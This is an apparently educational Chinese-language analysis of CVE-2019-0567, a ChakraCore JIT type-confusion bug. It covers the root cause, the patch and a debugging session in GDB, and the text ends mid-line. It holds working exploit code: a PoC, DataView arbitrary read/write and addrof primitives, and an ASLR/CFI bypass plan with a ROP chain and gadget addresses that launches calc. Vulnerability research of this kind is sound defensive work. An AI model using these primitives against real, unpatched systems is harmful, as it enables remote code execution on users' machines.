# CVE-2019-0567

> ChakraCore `InitProto` 类型混淆漏洞分析、调试过程与复现笔记,感谢 [@bjrjk](https://github.com/bjrjk) 设计并提供了精巧的利用手段。

---

## 基本信息

| 项目 | 内容 |
|---|---|
| 漏洞编号 | CVE-2019-0567 |
| 漏洞类型 | Type Confusion |
| 受影响组件 | ChakraCore |
| 复现版本 | 1.11.4 |
| Git Commit | `331aa3931ab69ca2bd64f7e020165e693b8030b5` |
| 调试平台 | Windows 11 专业版 21H2 22000.739 |
| IDE | Visual Studio 2022 |
| 平台工具集 | v143 |
| Linux 调试环境 | Ubuntu / GDB / clang / cmake |

---

## 漏洞概览

该漏洞的核心在于：JIT 错误地将 InitProto 视为无副作用操作。但在特定路径下，InitProto 实际会触发 type handler 状态变化，并导致对象属性布局从 inline slots 迁移到 aux slots。若后续仍按旧布局生成属性写入代码，会把值写到错误位置，最终形成 **type confusion**。

对应的官方描述为：

> `NewScObjectNoCtor` and `InitProto` opcodes are treated as having no side effects, but actually they can have via the `SetIsPrototype` method of the type handler that can cause transition to a new type.

从根因上看，此处并非简单的“某个字段写错了”，而是：

- **JIT 还在按旧布局理解对象**；
- **运行时对象已经发生了 type transition**；
- **后续属性写入没有重新验证该布局假设**。

---

## 预备知识

### DynamicObject 的布局

```txt
Memory layout of DynamicObject[4] can be one of the following:
       (#1)                (#2)                (#3)
 +--------------+    +--------------+    +--------------+
 | vtable, etc. |    | vtable, etc. |    | vtable, etc. |
 |--------------|    |--------------|    |--------------|
 | auxSlots     |    | auxSlots     |    | inline slots |
 | union        |    | union        |    |              |
 +--------------+    |--------------|    |              |
                     | inline slots |    |              |
                     +--------------+    +--------------+

The allocation size of inline slots is variable and dependent on profile data for the object.
The offset of the inline slots is managed by DynamicTypeHandler.
More details for the layout scenarios below.
```

`DynamicObject` 的属性可存放在两类区域中：

- **inline slots**：属性直接放在对象本体附近，访问偏移固定，速度快；
- **aux slots**：属性放到额外分配的 slots 区域，对象中保存指针指向这块区域。

因此，若一个对象在执行过程中发生了 **type transition**，属性的真实存储位置就可能从 inline 区迁移到 aux 区。若 JIT 未同步这一事实，会在旧偏移处执行错误写入。

### `InitProto` 的语义风险

`InitProto` 表面上用于初始化对象原型，但在特定路径下可能触发 type handler 状态变化并影响属性布局，因此不能简单视为无副作用操作。

---

## PoC 与根因分析

### 最小 PoC

```javascript
function opt(o, proto, value) {
    o.b = 1;
    let tmp = {__proto__: proto};
    o.a = value;
}

function main() {
    for (let i = 0; i < 2000; i++) {
        let o = {a: 1, b: 2};
        opt(o, {}, {});
    }

    let o = {a: 1, b: 2};
    opt(o, o, 0x1234);
    print(o.a);
}

main();
```

### 根因解释

`opt` 函数中最关键的是第二行：

```javascript
let tmp = {__proto__: proto};
```

这一步会触发 `InitProto` 字节码。JIT 在优化 `opt` 时，把它当作无副作用节点处理，因此没有在后续属性写入 `o.a = value` 之前插入足够的 layout/check+bailout 保护。

问题在于，执行 `InitProto` 时，对象 `o` 的类型处理器可能发生变化，原本按 **inline slots** 组织的对象会被转成 **aux slots** 布局。此时：

- **运行时对象的真实布局已经发生变化**；
- **JIT 代码仍假定 `o.a` 位于旧的 inline 偏移处**；
- 后续 `o.a = value` 会把值写到错误的位置。

由此形成典型的 **stale layout assumption**。

### Patch 前后 JIT IR 对比

对比 Patch 前后的 JIT IR（左侧为 Patch 后，右侧为 Patch 前）：



此处可观察到 patch 的思路：Patch 后在 `o.a` 的写入前补上了 **`BailOutOnImplicitCallsPreOp`** 检查。

因此，修复方不再假设 `InitProto` 一定是“干净”的初始化操作，而是承认它可能带来隐式副作用。一旦这类副作用可能让对象布局失效，就先 bailout，避免沿错误的 JIT 快路径继续执行。

---

## 对象布局变化的调试观察

本节记录调试时观察到的对象布局变化，以及它和后续错误写入之间的对应关系。

### 初始状态：`o.a` 与 `o.b` 都是 inline 属性

在如下语句处：

```javascript
let o = {a: 1, b: 2};
```

对象 `o` 的属性 `a`、`b` 都以内联方式存放：



### 进入 JIT 后执行 `o.b = 1`

进入 JITed 的 `opt` 后，第 1 个属性写是：

```javascript
o.b = 1;
```

此时只是对既有属性 `b` 的正常更新：



### `InitProto` 触发 type transition

随后执行：

```javascript
let tmp = {__proto__: proto};
```

该操作会触发 type transition，把原先 inline slot 中保存的内容迁移到 aux slots：



### `o.a = value` 仍按旧布局写入

问题出在下一句：

```javascript
o.a = value;
```

JIT 仍按“`o.a` 位于旧 inline 偏移”的假设生成代码，因此把 `0x1234` 写到了原先 `o.a` 所在的位置：



但此时对象真实布局已经变化，原位置不再对应 `a` 属性，因此后续 `print(o.a)` 会触发异常行为。




---

## 从 PoC 到利用原语的扩展

本节记录该漏洞如何从单点错误写入继续扩展成更有价值的利用原语。

### 预备知识

#### NaN-boxing

在多数 64 位 JavaScript 引擎中，除对象指针外，很多值都使用压缩或 tagged 表示。由于虚拟地址空间通常只使用低 48 位，部分高位可用于存储类型 tag。利用过程中若把原本应为“对象指针”或“带 tag 的值”误当作普通数值写入，就可在后续解释阶段形成类型错配。

#### DataView 的利用价值

`DataView` 可对 `ArrayBuffer` 中的裸字节进行读写，而不是只处理经过 JS tagging 的抽象值。因此一旦可控制 `DataView` 关键内部字段（例如其 `buffer` 指向），就可进一步构造 **任意地址读写**。

---

### 构造可控对象 `obj`

目标：把原本有限的“错误位置写入”，扩展成对任意 JS 对象内部关键字段的覆盖。

```javascript
// Creating object obj
// Properties are stored via auxSlots since properties weren't declared inline
obj = {}
obj.a = 1;
obj.b = 2;
obj.c = 3;
obj.d = 4;
obj.e = 5;
obj.f = 6;
obj.g = 7;
obj.h = 8;
obj.i = 9;
obj.j = 10;

function opt(o, proto, value) {
    o.b = 1;
    let tmp = {__proto__: proto};
    o.a = value;
}

function main() {
    for (let i = 0; i < 2000; i++) {
        let o = {a: 1, b: 2};
        opt(o, {}, {});
    }
    let o = {a: 1, b: 2};
    opt(o, o, obj);    // Instead of supplying 0x1234, we are supplying our obj
    o.c = xxx; // obj.auxSlot
}

main();
```



为进一步扩大 PoC 的利用能力，需要能够间接控制对象 `obj` 的 `auxSlots`。为此，可给对象 `o` 额外增加一个属性 `c`，把原本局限于单一字段的覆盖扩展到更关键的位置。



---

### DataView 任意地址读写原语

该阶段的核心思想是：

1. 构造两个 `DataView`；
2. 通过类型混淆把一个对象的关键字段改成另一个 `DataView` 的地址；
3. 再将第一个 `DataView` 的 `buffer` 改成第二个 `DataView` 对象地址；
4. 最终用 `setUint32/getUint32` 间接读写任意地址。

示意图如下：









```javascript
// Creating object obj
// Properties are stored via auxSlots since properties weren't declared inline
obj = {}
obj.a = 1;
obj.b = 2;
obj.c = 3;
obj.d = 4;
obj.e = 5;
obj.f = 6;
obj.g = 7;
obj.h = 8;
obj.i = 9;
obj.j = 10;

// Create two DataView objects
dataview1 = new DataView(new ArrayBuffer(0x100));
dataview2 = new DataView(new ArrayBuffer(0x100));

// Function to convert to hex for memory addresses
function hex(x) {
    return x.toString(16).padStart(8, "0");
}

// Arbitrary read function
function read64(lo, hi) {
    dataview1.setUint32(0x38, lo, true);        // DataView+0x38 = dataview2->buffer
    dataview1.setUint32(0x3C, hi, true);        // We set this to the memory address we want to read from (4 bytes at a time: e.g. 0x38 and 0x3C)

    // Instead of returning a 64-bit value here, we will create a 32-bit typed array and return the entire away
    // Write primitive requires breaking the 64-bit address up into 2 32-bit values so this allows us an easy way to do this
    var arrayRead = new Uint32Array(0x10);
    arrayRead[0] = dataview2.getUint32(0x0, true);  // 4-byte arbitrary read
    arrayRead[1] = dataview2.getUint32(0x4, true);  // 4-byte arbitrary read

    // Return the array
    return arrayRead;
}

// Arbitrary write function
function write64(lo, hi, valLo, valHi) {
    dataview1.setUint32(0x38, lo, true);        // DataView+0x38 = dataview2->buffer
    dataview1.setUint32(0x3C, hi, true);        // We set this to the memory address we want to write to (4 bytes at a time: e.g. 0x38 and 0x3C)

    // Perform the write with our 64-bit value (broken into two 4 bytes values, because of JavaScript)
    dataview2.setUint32(0x0, valLo, true);      // 4-byte arbitrary write
    dataview2.setUint32(0x4, valHi, true);      // 4-byte arbitrary write
}

// Function used to set prototype on tmp function to cause type transition on o object
function opt(o, proto, value) {
    o.b = 1;
    let tmp = {__proto__: proto};
    o.a = value;
}

// main function
function main() {
    for (let i = 0; i < 2000; i++) {
        let o = {a: 1, b: 2};
        opt(o, {}, {});
    }

    let o = {a: 1, b: 2};

    opt(o, o, obj);     // Instead of supplying 0x1234, we are supplying our obj

    // Corrupt obj->auxSlots with the address of the first DataView object
    o.c = dataview1;

    // Corrupt dataview1->buffer with the address of the second DataView object
    obj.h = dataview2;

    // From here we can call read64() and write64()
}

main();
```

---

### AddressOf 原语

```javascript
// Function used to set prototype on tmp function to cause type transition on object `o`
function opt(o, proto, value) {
    o.b = 1;
    let tmp = {__proto__: proto};
    o.a = value;
}

var o1;
var dataview = new DataView(new ArrayBuffer(0x100));
var o2 = {};
o2.a = 1; o2.b = 2; o2.c = 3; o2.d = 4;
o2.e = 5; o2.f = 6; o2.g = 7; o2.h = {};
o2.i = 9; o2.j = 10;

function prepare() {
    for (let i = 0; i < 20000; i++) {
        o1 = {a: 1, b: 2};
        opt(o1, {}, {});
    }
    o1 = {a: 1, b: 2};
    opt(o1, o1, o2);
    o1.c = dataview;
}

prepare();

function addrof(obj) {
    let o4 = new Proxy(obj, {});
    o2.h = o4;
    return dataview.getFloat64(0x28, true);
}
```

该阶段的思路是通过可控对象布局泄露目标对象地址，从而构造 `addrof` 原语。它对后续任意地址读写、模块基址泄露和关键字段定位都很重要。

---

## 利用链概览

### ASLR 绕过

利用 `DataView` 原语先泄露对象的 `vftable` 指针。由于该地址位于 ChakraCore 模块映像内，因此可用来反推出 `ChakraCore.dll` 或 `libChakraCore.so` 的加载基址。

### CFI 绕过

不依赖传统虚表覆盖去直接劫持间接调用，而是通过覆盖栈上的返回地址并构造 ROP 链绕过控制流保护。

### 栈地址泄露

通过如下链路泄露栈相关地址：

```txt
type -> javascriptLibrary -> scriptContext -> threadContext -> stackLimitForCurrentThread
```

随后结合固定偏移推算当前线程栈底或可扫描区域。

### 控制流劫持

获取栈区域后，向上扫描返回地址，找到可覆盖的位置，并拼接 ROP 链调用 `WinExec("calc", 0)`。在 64 位 Windows 下，`fastcall` 调用约定中前四个参数分别位于：

```nasm
RCX, RDX, R8, R9
```

ROP 栈布局示意：

```nasm
pop rax ; ret
<0x636c6163>              ; "calc"

pop rcx ; ret
<pointer to store calc>

mov qword [rcx], rax ; ret

pop rdx ; ret
<0>

pop rax ; ret
<WinExec address>

jmp rax
```

示例 gadget：

```bash
0x180291dcc: pop rax ; ret ; \x40\x58\xc3
0x1802f86bc: pop rcx ; ret ; \x40\x59\xc3
0x1800d7d57: mov qword [rcx], rax ; ret ; \x48\x89\x01\xc3
0x180e55ac0: pop rdx ; ret ; \x4c\x5a\xc3
0x18007bf4e: jmp rax ; \xff\xe0
```


---

## 调试路径

本节记录实际采用的调试路径。相比于仅观察最终崩溃或只观察 PoC，重点是：**如何从引擎断点一路走到触发点，再将寄存器、对象地址、auxSlots 和后续 DataView 原语串起来。**

### 在 `print` 回调处拦截

第一步可在 ChakraCore 源码中的 `WScriptJsrt::EchoCallback` 打断点，也是 `print` 最后会走到的位置。该断点较稳定，原因如下：

- 可在关键输出点稳定停住
- 可直接从 `arguments` 中取出 JS 层对象地址

### 在原生 Helper 上截获 `InitProto` 引发的布局变化

关键断点之一：

```bash
b Js::DynamicTypeHandler::AdjustSlots
```

该断点的意义在于，虽然 `opt` 已经被 JIT 编译成本地机器码，但遇到像 `InitProto` 这种可能触发布局变换的复杂操作时，JIT 仍会回调到引擎的 C++ helper。命中 `AdjustSlots` 就说明当前执行路径确实进入了布局调整逻辑。

此时通过：

```bash
bt
```

可在调用栈中看到一层 JIT 入口，通常表现为匿名地址或 `??`。常见栈信息形如：

```bash
Js::JavascriptFunction::CallFunction<true>(function=..., entryPoint=0x..., args=..., useLargeArgCount=false)
```

其中 `entryPoint` 是当前 JIT 函数入口地址。

### 反汇编 JIT 代码

获取 `entryPoint` 后，可直接反汇编：

```bash
x/120i *entryPoint
```

这样可定位到 `opt(o, o, obj)` 对应的机器码范围，并进一步定位触发布局变化或错误写入的位置。

### 在错误写入点位打断点

例如当定位到如下指令：

```bash
0x...: mov    QWORD PTR [rax], r10
```

可直接在对应偏移下断：

```bash
b *entryPoint+0x173
```

在本漏洞场景中，这类写指令通常对应“JIT 仍按旧布局把值写入旧槽位”的关键时刻。

### 结合寄存器检查对象与 auxSlots

#### 调试时对应的几张关键图

`rax` 代表 `o.auxSlots`，`r10` 代表 `obj` 的起始地址：



此时可观察到 `auxSlots` 的地址，并继续观察其中保存的 `o.a` / `o.b`：



进一步观察 `r10` 和 `r11` 时，可将 `obj` 的起始地址以及更新后的 `auxSlots` 指针位置对应起来：



继续沿着更新后的指针去读，可观察到对象内容已经被带到新的位置：



因此，可将调试过程拆成几步：

1. 观察写入前 `o` 的原始布局
2. 在 `AdjustSlots` 命中后确认布局转换发生
3. 在错误写入点读取 `rax` / `r10` / `r11`，对应旧槽位、对象地址和更新后的指针关系。

### 在 DataView 关键方法上继续打断点

为跟踪利用原语的构造，可继续设置：

```bash
b Js::DataView::EntrySetUint32
b Js::DataView::EntryGetUint32
```

它们分别对应：

- `dataview.setUint32(...)`
- `dataview.getUint32(...)`

这两个断点可将“错误写 → 劫持内部指针 → 形成任意地址读写”的过程接起来。


---

## 调试中的关键观察点

### `0x19ae9c0` 的意义

`0x19ae9c0` 是 `DataView` 的 `vtable` 在 ChakraCore 模块内的 **RVA（相对模块基址偏移）**。因此，若在运行时泄露出 DataView 对象的 vtable 地址，可通过：

```bash
ChakraCore base = leaked_vtable - 0x19ae9c0
```

反推出模块基址。

### `info sharedlibrary` 的 From 不一定是模块基址

例如：

```bash
(gdb) info sharedlibrary libChakraCore
From                To                  Syms Read   Shared Object Library
